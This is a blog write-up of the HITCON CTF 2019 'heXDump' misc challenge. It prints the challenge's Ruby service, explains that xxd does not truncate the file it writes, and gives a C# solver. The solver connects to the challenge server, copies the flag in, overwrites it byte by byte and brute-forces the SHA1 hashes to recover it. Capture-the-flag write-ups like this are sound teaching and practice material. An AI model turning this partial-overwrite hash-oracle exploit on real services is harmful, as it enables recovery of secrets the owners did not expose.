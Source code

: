 ```yaml
---
layout: post
title: "HITCON CTF 2019 Quals: Misc - heXDump"
modified: 2019-10-19
tags: hitconctf, hitconctf2019quals, misc
---
```


In this challenge we got some Ruby code which could execute various actions (`md5`, `sha1` and `aes`) on our input data which was provided in hex format and were converted to binary via the `xxd` utility.

## The challenge

This was the code:

```ruby
#!/usr/bin/env ruby
# encoding: ascii-8bit
# frozen_string_literal: true

require 'English'
require 'fileutils'
require 'securerandom'

FLAG_PATH = File.join(ENV['HOME'], 'flag')
DEFAULT_MODE = "sha1sum %s | awk '{ print $1 }'"

def setup
  STDOUT.sync = 0
  STDIN.sync = 0
  @mode = DEFAULT_MODE
  @file = '/tmp/' + SecureRandom.hex
  FileUtils.touch(@file)
  @key = output("sha256sum #{FLAG_PATH} | awk '{ print $1 }'").strip
  raise if @key.size != 32 * 2
end

def menu
  <<~MENU
    1) write
    2) read
    3) change output mode
    0) quit
  MENU
end

def output(cmd)
  IO.popen(cmd, &:gets)
end

def write
  puts 'Data? (In hex format)'
  data = gets
  return false unless data && !data.empty? && data.size < 0x1000

  IO.popen("xxd -r -ps - #{@file}", 'r+') do |f|
    f.puts data
    f.close_write
  end
  return false unless $CHILD_STATUS.success?

  true
end

def read
  unless File.exist?(@file)
    puts 'Write something first plz.'
    return true
  end

  puts output(format(@mode, @file))
  true
end

def mode_menu
  <<~MODE
    Which mode?
    - SHA1
    - MD5
    - AES
  MODE
end

def change_mode
  puts mode_menu
  @mode = case gets.strip.downcase
          when 'sha1' then "sha1sum %s | awk '{ print $1 }'"
          when 'md5' then "md5sum %s | awk '{ print $1 }'"
          when 'aes' then "openssl enc -aes-256-ecb -in %s -K #{@key} | xxd -ps"
          else DEFAULT_MODE
          end
end

def secret
  FileUtils.cp(FLAG_PATH, @file)
  true
end

def main_loop
  puts menu
  case gets.to_i
  when 1 then write
  when 2 then read
  when 3 then change_mode
  when 1337 then secret
  else false
  end
end

setup
begin
  loop while main_loop
  puts 'See ya!'
ensure
  FileUtils.rm_f(@file)
end 
```

## The bug

After looking into what the `English` module does and trying to find out if `xxd` or `md5sum` or `sha1sum` can be tricked into doing something nasty based only on the input binary, all of these turned out to be wrong paths of solving the challenge.

Fortunately I found quickly that `xxd` does not truncate the input file when it writes into the file, so this call `xxd -r -ps - #{@file}` will keep the `file`'s original content and only overwrites the first few bytes that we provide.

This could be checked quickly by executing the following commands:

```
1
Data? (In hex format)
4141

2
801c34269f74ed383fc97de33604b8a905adb635
```

This is the correct result as `sha1("AA")` is indeed `801c34269f74ed383fc97de33604b8a905adb635`.

But if continue with the following commands:

```
1
Data? (In hex format)
42

2
eb28d7ef234301a3371720ea0d790df1a9c4363a
```

Then we get `sha1("BA") == "eb28d7ef234301a3371720ea0d790df1a9c4363a"` instead of `sha1("B") == "eb28d7ef234301a3371720ea0d790df1a9c4363a"`.

Of course we can also see that using the secret, not listed command `1337` sets our input file to the flag's value.

## The plan

So the plan is to overwrite our flag byte-by-byte and get the SHA1 hash of all these values then bruteforce offline the original flag bytes again byte-by-byte.

Here is an example:

```
             -> hitcon{ABCD} = 4bdb33b36816d73ecc714d698f161a07b2b4b593
_            -> _itcon{ABCD} = 4a582a61504a0cfd5ba786c2fc820da999ee25b9
__           -> __tcon{ABCD} = 720b2d9b846a76ed1696eb6f5df744545bf98e52
...
__________   -> __________D} = 8cd1a0e13e00b87c89c157a5f209f4c695ea1dda
___________  -> ___________} = 5a57868331393a400ad0ad0b1934b6592cf01ca5
____________ -> ____________ = 207f54f7d86a61d551a6495ea3e8d90053003579
```

From now on, we can brute-force the bytes offline:

We know that `sha1("___________"  + one_byte)` should be `5a57868331393a400ad0ad0b1934b6592cf01ca5`, so we can try every 0-255 byte value and we will find out that `one_byte == '}'`.

Then we can try to brute-force the previous byte as we know that `sha1("__________"  + other_byte + "}")` should be `8cd1a0e13e00b87c89c157a5f209f4c695ea1dda` and we find out that `other_byte == 'D'`.

And so on...

## The solver code

The following code implements the previous bruteforcer and solves the challenge:

```csharp
var tcp = new TcpTextClient("13.113.205.160", 21700);

// set flag as input 
tcp.ReadUntilEnds("0) quit\n");
tcp.WriteLine("1337");

void SetInput(string newValue)
{
    tcp.ReadUntilEnds("0) quit\n");
    tcp.WriteLine("1");
    tcp.ReadUntilEnds("Data? (In hex format)\n");
    tcp.WriteLine(Conversion.BytesToHex(EncodingHelper.GetBytes(newValue)));
}

string GetHash()
{
    tcp.ReadUntilEnds("0) quit\n");
    tcp.WriteLine("2");
    return tcp.ReadLine();
}

string Sha1(string value) => Conversion.BytesToHex(SHA1.Create().ComputeHash(EncodingHelper.GetBytes(value)));

var values = new Stack<string>();
while (true)
{
    var overwrite = new string('_', values.Count);
    SetInput(overwrite);
    var current = GetHash();
    if (current == Sha1(overwrite)) // no more characters left from the flag
        break;
    Console.WriteLine($"Got hash '{overwrite}' => {current}");
    values.Push(current);
}

var flag = "";
while (values.Count > 0)
{
    var currEncoded = values.Pop();
    var win = (char)Enumerable.Range(0, 256).Single(x => Sha1(new string('_', values.Count) + (char)x + flag) == currEncoded);
    Console.WriteLine($"Found: {(byte)win} ('{win}')");
    flag = win + flag;
}

Console.WriteLine($"Flag = {flag}");
```

## The flag

The solver gave us the flag:

```
hitcon{xxd?XDD!ed45dc4df7d0b79}
```